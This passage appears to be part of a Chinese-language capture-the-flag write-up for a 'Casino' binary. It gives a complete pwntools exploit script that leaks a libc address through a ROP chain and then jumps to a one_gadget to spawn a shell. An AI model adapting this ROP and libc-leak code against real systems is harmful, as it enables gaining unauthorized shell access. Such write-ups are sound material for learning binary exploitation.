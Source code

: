 至此我们就可以发送第一次的payload了

##### 输入one_gadget

这里是我们第二次发送payload；栈结构为：

```
-----code段-----
ret
-----stack------
one_gadget_addr(libc_base+0x4526a)
```

### 3.payload

```
from pwn import *

elf=ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
p=process("./Casino")

p.recv(2048)
while True:
	p.send('0')
	p.recvline()
	money=int((p.recvline().split(": "))[-1])
	print money
	p.recvline()
	#print p.recv(2048)
	if(money>110):
		break

p.send('2')
print p.recv(2048)

gdb.attach(p)

payload = ''
payload += p64(0x400dd1) # 0x0000000000400dd1 : pop rsi ; pop r15 ; ret
payload += p64(0x602018) # rsi got.plt
payload += p64(0x0) # r15
payload += p64(0x400aa5) # 0x0000000000400aa5 : and eax, 1 ; pop rbp ; ret
payload += p64(0x602078) # ebp
payload += p64(0x400D5B) # 0x0000000000400d5b : mov rdi, rax ; syscall ; ret
payload += p64(0x400d50)
p.sendline(payload)

tmp=p.recv(2048)[:8]
libc_puts=u64(tmp)
libc_base=libc_puts-0x6f690

print hex(libc_puts)
print hex(libc_base)

one_gadget=libc_base+0x4526a
payload=p64(one_gadget)
p.sendline(payload)
p.interactive()
```
